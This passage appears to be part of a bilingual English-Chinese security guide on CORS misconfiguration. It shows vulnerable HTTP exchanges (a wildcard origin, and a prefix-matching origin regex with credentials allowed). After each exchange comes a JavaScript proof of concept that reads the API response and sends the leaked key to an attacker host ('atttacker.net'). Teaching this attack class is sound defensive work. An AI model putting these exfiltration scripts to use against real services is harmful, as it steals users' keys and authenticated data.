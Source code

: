 #### Vulnerable Implementation - 漏洞实现

```
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### Proof of concept - 概念验证

```
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

### Vulnerable Example: Expanding the Origin / Regex Issues - 扩展Origin/正则问题

有时，原始Origin的某些扩展不会在服务器端被过滤。这可能是由于使用执行不当的正则表达式来验证header造成的。

#### Vulnerable Implementation (Example 1) - 漏洞实现1

在这种情况下，服务器会接受在 `example.com` 前面插入的任何前缀。

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept (Example 1) - 概念验证1

此 PoC 需要将相应的 JS 脚本托管在 `evilexample.com`：

```
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
